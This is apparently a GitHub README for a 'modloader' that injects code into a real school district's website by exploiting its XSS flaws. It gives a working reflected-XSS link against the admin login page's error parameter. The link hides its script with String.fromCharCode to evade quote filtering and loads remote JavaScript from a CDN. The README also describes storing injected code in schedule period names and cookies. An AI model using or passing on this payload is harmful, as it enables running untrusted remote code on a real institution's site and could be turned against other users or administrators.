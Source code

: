 # RHS-Modloader
An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

(If you prefer a longer link that is much more stable with no install, go [here]())

# Installation Instructions

As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Cscript%3Einstall=String.fromCharCode(115,99,114,105,112,116);replace=String.fromCharCode(104,116,116,112,115,58,47,47,99,100,110,46,106,115,100,101,108,105,118,114,46,110,101,116,47,103,104,47,80,111,121,114,97,122,79,122,107,117,115,97,107,115,105,122,47,82,72,83,45,77,111,100,108,111,97,100,101,114,64,109,97,115,116,101,114,47,105,110,115,116,97,108,108,101,114,46,106,115);var%20scriptTag%20=%20document.createElement(install);scriptTag.src%20=%20replace;document.body.appendChild(scriptTag);%3C/script%3E) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules.

# How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
